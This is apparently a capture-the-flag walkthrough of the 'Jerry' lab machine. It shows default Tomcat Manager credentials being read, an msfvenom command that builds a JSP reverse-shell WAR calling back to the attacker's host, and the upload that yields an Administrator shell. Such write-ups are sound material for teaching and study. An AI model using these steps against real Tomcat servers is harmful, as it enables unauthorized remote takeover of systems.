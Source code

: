 # Jerry - Walkthrough

## 🧗 Initial Foothold

### 🌐 1. Apache Tomcat on Port 8080
- Discovered **Apache Tomcat** running on port `8080`:
  ```
  http://10.129.136.9:8080
  ```

### 🔑 2. Access Tomcat Manager
- Clicked on the **Manager App** link, which prompted for credentials.
- Clicked **Cancel**, and surprisingly, a page was shown that revealed credentials:
  ```
  Username: tomcat
  Password: s3cret
  ```

### 🔓 3. Login and Upload WAR
- Used the credentials to log into the Manager App at:
  ```
  http://10.129.136.9:8080/manager/html
  ```
- Found an option to **upload a WAR file**.

### 💣 4. Create and Upload Reverse Shell
- Created a WAR file with `msfvenom`:
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your-ip> LPORT=<your-port> -f war > shell.war
  ```

- Verified contents using:
  ```bash
  jar tf shell.war
  ```

- Identified the `.jsp` shell file name inside the WAR.

### 🛰️ 5. Trigger Shell
- Uploaded the WAR via Tomcat Manager.
- Accessed the `.jsp` file in the deployed application’s path.
- Set up a listener and received a reverse shell.

---

## 🧠 Notes

- The obtained shell runs with **Administrator** privileges.
- This machine demonstrates the risk of misconfigured or exposed Tomcat Manager.
- Simple credential leak led directly to full compromise.
